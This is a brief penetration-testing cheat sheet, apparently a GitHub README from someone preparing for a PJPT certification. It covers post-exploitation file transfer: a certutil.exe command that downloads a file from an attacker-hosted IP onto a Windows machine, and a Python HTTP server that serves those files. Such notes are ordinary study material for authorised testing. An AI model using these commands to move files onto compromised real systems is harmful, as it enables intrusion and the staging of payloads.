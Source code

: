 # Post Exploitation

File Transfers=>

1.Powershell for Windows
```powershell
certutil.exe --urlcache -f http://10.10.10.10/file.txt file.txt
```

2.Open HTTP server to share files on directory
```bash
python3 -m http.server --bind [your_ip] [port]
```

# Result
[Click me!](https://www.linkedin.com/posts/sahib-humbatzada-42b082223_pjpt-tcmsecurity-activity-7096676619943034880-vn_J?utm_source=share&utm_medium=member_android)
## Authors
- [@dr4ks](https://www.github.com/Dr4ks)